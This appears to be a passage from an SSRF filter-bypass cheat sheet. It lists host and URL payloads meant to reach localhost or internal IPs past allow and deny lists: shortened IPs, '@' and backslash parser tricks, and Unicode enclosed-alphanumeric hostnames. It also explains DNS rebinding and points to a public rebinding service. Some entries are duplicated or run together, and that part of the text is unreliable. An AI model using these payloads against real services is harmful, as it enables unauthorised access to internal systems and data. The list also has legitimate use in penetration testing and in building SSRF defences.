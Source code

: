 ```
{domain}@localhost
localhost#{domain}
{domain}.localhost
localhost/{domain}
localhost/?d={domain}
127.0.0.1%00{domain}
127.0.0.1?{domain}
127.0.0.1///{domain}
127.0.0.1%00{domain}
127.0.0.1?{domain}
127.0.0.1///{domain}st:+11211aaa
st:00011211aaaa
0/
127.1
127.0.1
1.1.1.1 &@2.2.2.2# @3.3.3.3/
127.1.1.1:80\@127.2.2.2:80/
127.1.1.1:80\@@127.2.2.2:80/
127.1.1.1:80:\@@127.2.2.2:80/
127.1.1.1:80#\@127.2.2.2:80/


```

### hosts file bypass attempts

### Enclosed Alphanumeric

```
http://⑯⑨。②⑤④。⑯⑨｡②⑤④/
http://⓪ⓧⓐ⑨｡⓪ⓧⓕⓔ｡⓪ⓧⓐ⑨｡⓪ⓧⓕⓔ:80/


```

DNS rebinding attempts
----------------------

### What is a DNS rebinding attack?

In certain situations a target function may check a hostname “blindly” against a whitelist/blacklist without verification of the the resolution IP address. Once the hostname has been determined OK by the above function it is then passed to the function which it is intended to protect.

### How to exploit a vulnerable function

You can setup a DNS server that resolves to the whitelist, then have a short TTL which changes to the IP you want to exploit e.g. 127.0.0.1 for SSRF, or any other internal IP.

Fortunately taviso has built a [service for this](https://github.com/taviso/rbndr) which you can use to generate a dword subdomain and use against your target. The downside to this service is that it appears to flip the resolution IP back and forth, so it may change during the attack.
